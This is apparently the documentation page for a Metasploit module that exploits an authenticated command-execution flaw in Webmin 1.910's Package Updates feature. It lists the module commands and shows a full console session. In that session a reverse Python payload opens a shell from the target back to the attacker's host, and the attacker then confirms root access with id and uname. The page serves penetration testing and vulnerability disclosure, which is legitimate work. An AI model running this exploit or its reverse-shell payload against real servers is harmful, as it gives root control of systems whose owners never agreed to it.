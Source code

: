 ## Description

This module exploits an arbitrary command execution vulnerability in Webmin
1.910 and lower versions. any user authorized to the "Package Updates" module can execute arbitrary commands with root privileges via the data parameter to update.cgi.

## Vulnerable Application

This module has been tested with [Webmin 1.910](https://sourceforge.net/projects/webadmin/files/webmin/1.910/)

## Verification Steps

1. `use exploit/lunix/http/webmin_packageup_rce`
2. `set rhosts <rhost>`
3. `set username <username>`
4. `set password <password>`
5. `exploit`

## Scenarios

### Tested Webmin 1.910 on Debian Linux 4.19.28-2kali1 x64

```
msf5 >
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(linux/http/webmin_packageup_rce) > set PAYLOAD cmd/unix/reverse_python
PAYLOAD => cmd/unix/reverse_python
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 192.168.1.12
LHOST => 192.168.1.12
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME rce
USERNAME => rce
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD password
PASSWORD => password
msf5 exploit(linux/http/webmin_packageup_rce) > check

[*] NICE! rce has the right to >>Package Update<<
[+] 192.168.1.9:10000 - The target is vulnerable.
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Session cookie: 1947b5dfd62403b8f1f58f497e88b1e5
[*] Attempting to execute the payload...
[*] Command shell session 12 opened (192.168.1.12:4444 -> 192.168.1.9:47552) at 2019-06-16 18:21:46 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux AkkuS 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
pwd
/usr/share/webmin/package-updates/
exit
```

